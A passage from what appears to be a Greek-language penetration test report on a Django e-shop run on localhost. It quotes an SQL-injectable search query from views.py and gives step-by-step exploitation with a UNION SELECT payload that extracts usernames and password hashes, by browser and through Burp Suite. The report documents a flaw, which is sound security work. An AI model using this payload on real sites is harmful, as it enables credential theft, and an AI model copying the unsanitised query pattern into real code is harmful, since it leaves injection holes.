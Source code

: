 ### 3.3 Τεχνολογίες

- **Framework**: Django 4.x
- **Database**: SQLite
- **Frontend**: Bootstrap, jQuery
- **Session Management**: Django Sessions
- **Password Hashing**: MD5 (ευπάθεια)

---

## 4. Αναλυτικά Ευρήματα

### 4.1 SQL Injection - Κρίσιμη Ευπάθεια

#### 4.1.1 Περιγραφή

Η λειτουργία αναζήτησης προϊόντων είναι ευάλωτη σε SQL injection λόγω της απευθείας ενσωμάτωσης των δεδομένων εισόδου του χρήστη στο SQL query χωρίς sanitization.

#### 4.1.2 Τεχνικές Λεπτομέρειες

**Ευάλωτος Κώδικας** (`eshop/views.py`, γραμμές 366-371):
```python
raw_query = f"""
SELECT * FROM eshop_product 
WHERE name LIKE '%%{search_query}%%'
"""
cursor.execute(raw_query)
```

#### 4.1.3 Απόδειξη Εκμετάλλευσης

**[ΟΔΗΓΙΕΣ SCREENSHOT 2]**
```
Τίτλος: SQL Injection - Εξαγωγή Χρηστών
Βήματα:
1. Ανοίξτε τον browser στο http://localhost:8000/catalog/
2. Στο πεδίο αναζήτησης εισάγετε: ' UNION SELECT NULL,username,password,NULL,NULL,NULL,NULL FROM auth_user--
3. Πατήστε Enter
4. Screenshot που δείχνει τα usernames και password hashes στα αποτελέσματα

Εναλλακτικά με Burp Suite:
1. Intercept request στο /catalog/?q=
2. Αλλάξτε το parameter q σε: '+UNION+SELECT+NULL,username,password,NULL,NULL,NULL,NULL+FROM+auth_user--
3. Forward το request
4. Screenshot του response με τα credentials
```

**Payload Επίθεσης**:
```sql
' UNION SELECT NULL,username,password,NULL,NULL,NULL,NULL FROM auth_user--
```
